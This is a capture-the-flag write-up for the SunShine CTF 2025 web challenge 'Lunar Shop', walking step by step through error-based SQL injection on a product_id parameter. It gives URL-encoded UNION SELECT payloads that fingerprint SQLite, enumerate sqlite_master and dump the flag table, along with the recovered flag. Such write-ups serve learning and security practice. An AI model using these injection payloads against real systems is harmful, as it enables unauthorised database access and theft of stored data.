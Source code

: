# Lunar Shop — SunShine CTF 2025

> **Room / Challenge:** Lunar Shop (Web)

---

## Metadata

- **Author:** `jameskaois`
- **CTF:** SunShine CTF 2025
- **Challenge:** Lunar Shop (web)
- **Target / URL:** `https://meteor.sunshinectf.games`
- **Difficulty:** `Easy`
- **Points:** `10`
- **Date:** `30-09-2025`

---

## Goal

We have to get the flag by using a vulnerability in the query of product id.

## My Solution

There are just 3 routes we can gather information in this website: `/`, `/products`, `/product?product_id`.

Home page:
![Guide image](../screenshots/lunar-shop-1.png)

Products page:
![Guide image](../screenshots/lunar-shop-2.png)

Product item details page:
![Guide image](../screenshots/lunar-shop-3.png)

There are just 3 visible products, we can try give different `product_id`.

Initially, I think that the flag is in other invisible `product_id`. However, there are just 10 products from id 1 -> 10.

So I think of another solution, which is **SQL Injection**. Firstly I test with this url: `https://meteor.sunshinectf.games/product?product_id=-1%20UNION%20SELECT%20%27A%27,%20%27B%27,%20%27C%27,%20%27sun{FLAG}%27%20--`

![Guide image](../screenshots/lunar-shop-4.png)

Try `https://meteor.sunshinectf.games/product?product_id=-1%20UNION%20SELECT%201,%202,%203,%20group_concat(table_name)%20FROM%20information_schema.tables%20WHERE%20table_schema=DATABASE()` to find the tables in the database.

However, I receive this error:

```
[ Error occured. --> no such table: information_schema.tables ]
```

This message indicate that the database is **SQLite**.

Try `https://meteor.sunshinectf.games/product?product_id=-1%20UNION%20SELECT%201,%202,%203,%20group_concat(tbl_name)%20FROM%20sqlite_master%20WHERE%20type='table'%20--`. Receive:

```
products,sqlite_sequence,flag
```

Get table structure: `https://meteor.sunshinectf.games/product?product_id=-1%20UNION%20SELECT%201,%202,%203,%20sql%20FROM%20sqlite_master%20WHERE%20type='table'%20AND%20tbl_name='flag'%20--`
Receive:

```
CREATE TABLE flag ( id INTEGER PRIMARY KEY AUTOINCREMENT, flag TEXT NOT NULL UNIQUE )
```

Final query to get the flag: `https://meteor.sunshinectf.games/product?product_id=-1%20UNION%20SELECT%201,%202,%203,%20flag%20FROM%20flag%20--`. Receive:

![Guide image](../screenshots/lunar-shop-5.png)

```
sun{baby_SQL_injection_this_is_known_as_error_based_SQL_injection_8767289082762892}
```

